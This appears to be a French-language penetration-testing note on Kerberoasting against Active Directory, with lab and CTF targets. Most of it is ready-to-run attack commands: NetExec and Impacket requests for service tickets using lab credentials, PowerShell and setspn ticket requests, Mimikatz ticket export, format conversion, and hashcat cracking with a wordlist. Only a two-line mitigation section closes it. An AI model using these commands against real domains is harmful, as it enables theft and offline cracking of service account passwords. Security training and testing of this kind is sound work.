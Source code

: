 
> [!tip]
> Besoin d'un compte utilisateur valide
> Check les userSPNs puis demande un TGS


# Linux

## *Netexec*

```bash
nxc ldap ctf05.root-me.org -u pentest -p Pent3st123! --kdcHost ctf05.root-me.org --kerberoasting SPNs.txt
```

## *Impacket* (**avec* *TGT* *en* *cache*)

```bash
impacket-GetUserSPNs -no-pass -k -dc-ip ctf05.root-me.org -dc-host DC-KERBEROAST.ROOTME.local rootme.local/pentest -outputfile SPNs.txt
```

## Crack du hash avec [[HASHCAT]]

```bash
hashcat -m 13100 SPNs /usr/share/wordlists/rockyou.txt
```


# Windows

## 1. SETSPN (NATIF)

### Afficher les SPN

```cmd
setspn.exe -Q */*
```

### Target un user (demande un tgs pour le user)

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

### Target tous les users possibles (demande un tgs pour tous les users vulnérables)

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extraire les tickets forgés avec Mimikatz (en base64)

```cmd-session
base64 /out:true
kerberos::list /export
```

### Mettre le base64 au bon format (supprime les espaces et retour ligne)

```shell-session
echo "<base64 blob>" |  tr -d \\n
```

### Placer le base64 dans un fichier au format kirbi

```shell-session
echo "<base64>" | base64 -d > sqldev.kirbi
```

### Mettre le ticket au format john

```shell-session
kirbi2john.py sqldev.kirbi > crack_file
```

### Puis mettre au format hashcat

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Crack du hash avec Hashcat

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```



## 2. [[POWERVIEW#KERBEROASTING|Méthode avec POWERVIEW]]

## 3. [[RUBEUS#KERBEROASTING|Méthode avec RUBEUS (DOWNGRADE RC4)]]



---


# MITIGATION & DETECTION


1. Utiliser les gMSA et MSA
2. Logs le nombre anormal de requêtes de TGS (computer Configuration -> Security Settings -> Advanced Audit Policy Configuration -> Audit Policies -> Account Logon -> Audit Kerberos Authentication service )











